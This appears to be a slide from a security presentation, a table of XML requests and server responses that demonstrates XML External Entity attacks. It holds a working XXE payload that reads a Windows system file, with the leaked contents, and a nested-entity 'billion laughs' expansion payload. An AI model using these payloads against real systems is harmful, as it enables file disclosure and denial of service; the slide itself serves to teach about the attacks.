

| REQUEST | RESPONSE |
| --- | --- |
| <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///windows/win.ini” > ]> <Search><SearchTerm>&xxe;</SearchTerm></Search> | <Search><SearchResult>No results found for expression: ; for 16-bit app support [fonts] [extensions] [mci extensions] [files] |
| <!DOCTYPE foo [ <!ENTITY xxe1 “test” > <!ENTITY xxe2 “&xxe1;&xxe1;” > <!ENTITY xxe3 “&xxe2;&xxe2;&xxe2;&xxe2;” > <!ENTITY xxe4 “&xxe3;&xxe3;&xxe3;&xxe3;&xxe3;&xxe3;&xxe3;&xxe3;” > ]> <Search><SearchTerm>&xxe4;</SearchTerm></Search> | <Search><SearchResult>test;test;test;test;test;test;test;test; test;test;test;test;test;test;test;test; test;test;test;test;test;test;test;test; test;test;test;test;test;test;test;test; test;test;test;test;test;test;test;test; test;test;test;test;test;test;test;test; test;test;test;test;test;test;test;test; test;test;test;test;test;test;test;test; |
|  | The billion laughs attack described above can take an exponential amount of space or time. |